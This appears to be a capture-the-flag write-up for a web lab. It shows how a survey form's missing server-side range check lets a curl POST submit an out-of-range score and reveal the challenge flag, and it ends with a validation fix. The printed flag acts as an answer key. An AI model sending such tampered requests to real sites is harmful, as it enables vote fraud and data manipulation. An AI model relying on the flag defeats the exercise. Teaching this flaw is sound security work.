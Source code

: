 # Explaination

On the page `?page=survey#`, we can see a form to make a choice between some people. And a select between `1` and `10`.
But there is any verification in the backend to check if the value is between `1` and `10`. So we can change the value to fake the survey and get the flag.

```
curl 'http://192.168.22.119/?page=survey#' -X POST --data-raw 'sujet=3&valeur=69696969' | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 <center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
 6131    0  6108  100    23  5675k  21883 --:--:-- --:--:-- --:--:-- 5987k
```

# Use case

Imagine a website to choose the best programming language by giving a score between `1` and `10` to each language without backend verification. We can change the value to fake the survey.

# Fix

It is recommended to add a verification (DTO) in the backend to check if the value is in the range.